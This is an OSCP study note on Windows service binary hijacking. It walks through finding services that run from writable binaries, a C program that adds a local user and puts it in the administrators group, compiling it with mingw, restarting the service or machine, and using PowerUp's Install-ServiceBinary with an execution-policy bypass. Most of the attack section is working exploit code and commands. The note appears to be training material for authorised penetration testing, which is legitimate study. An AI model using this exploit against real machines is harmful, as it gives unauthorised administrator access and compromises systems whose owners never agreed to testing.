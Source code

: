 ```yaml
---
aliases:
  - Service Binary Hijacking
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - windows
  - privesc
  - privilege_escalation
  - service
  - windows_services
  - service_binary
  - service_binary_hijack
author: Mehdi N Tehrani
creat_date: 2024-01-02
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Windows Services
## Tools
#sc #get_service #get_ciminstance
- *services snap-in*
- *powershell*
	- `sc.exe`
	- `Get-Service`
	- `Get-CimInstance`
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartMode | Where-Object {$_.State -like 'Running' -and $_PathName -notmatch 'C:\\Windows'}
```


## Accounts
#local_system #network_service #local_service
to run Windows services
- *LocalSystem* (includes the SIDs of `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators` in its token)
- *Network Service*
- *Local Service* 

## Permissions
### tools
#icacls #get_acl
- `icacls`
- `Get-ACL`

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

## Exploit
#stdlib_h #stdlib
1. Write exploit
**adduser.c**
> [!info] password should not be longer than 14 chars
```c
#include <stdlib.h>

int main(){
  int i;

  i = system("net user <username> <password> /add");
  i = system("net localgroup administrators <username> /add");
  
  return 0;
}
```
2. Compile
#mingw32 #x86_64-mingw32-gcc #x86_64-mingw32
```sh
x86_64-mingw32-gcc adduser.c -o adduser.exe
```

3. Restart service
```cmd
net stop <service>
net start <service>
```

```powershell
Restart-Service <service>
```

4. Check shutdown privileges:
if user cannot restart the service, and service is set to  'Automatic' we can restart the machine.
#whoami #priv #shutdown #seshutdownprivilege
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
In this list, it's important what privileges are listed. **State** is not important from the users perspective. State, means if the privilege is enabled/disabled for the current process; in this case `whoami`

5. Restart the machine
```
shutdown /r /t 0
```

6. Check if new user is added to the administrators group
```
Get-LocalGroupMember administrators
```

### tools
#### PowerUp
#powerup #powerup_ps1
Transfer PowerUp to target machine
```
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python -m http.server 80
```

```powershell
powershell.exe -ep bypass 
. ./PowerUp.ps1
Get-ModifiableServiceFile
```
PowerUp output:
```
ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```

We can choose to use `Install-ServiceBinary -Name 'mysql'` which replaces mysql binary with a code that adds a user named `john` with password `Password123!` added to the administrators localgroup.


